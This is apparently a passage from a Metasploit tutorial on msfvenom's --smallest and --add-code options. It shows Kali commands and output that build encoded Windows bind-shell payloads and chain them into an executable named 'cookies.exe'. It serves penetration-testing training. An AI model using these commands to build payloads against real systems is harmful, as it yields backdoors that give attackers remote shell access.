 **msfvenom –smallest** If the **–smallest** switch is used, **msfvevom** will attempt to create the smallest shellcode possible using the selected encoder and payload.

```
root@kali:~# msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
...snip...

root@kali:~# msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -f python --smallest
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 312 (iteration=0)
x86/shikata_ga_nai chosen with final size 312
Payload size: 312 bytes
...snip...
```

**msfvenom -c, –add-code**

Specify an additional win32 shellcode file to include, essentially creating a two (2) or more payloads in one (1) shellcode.

Payload #1:

```
root@kali:~# msfvenom -a x86 --platform windows -p windows/messagebox TEXT="MSFU Example" -f raw > messageBox
No encoder or badchars specified, outputting raw payload
Payload size: 267 bytes

```

Adding payload #2:

```
root@kali:~# msfvenom -c messageBox -a x86 --platform windows -p windows/messagebox TEXT="We are evil" -f raw > messageBox2
Adding shellcode from messageBox to the payload
No encoder or badchars specified, outputting raw payload
Payload size: 850 bytes
```

Adding payload #3:

```
root@kali:~# msfvenom -c messageBox2 -a x86 --platform Windows -p windows/shell/bind_tcp -f exe -o cookies.exe
Adding shellcode from messageBox2 to the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1469 bytes
Saved as: cookies.exe
```
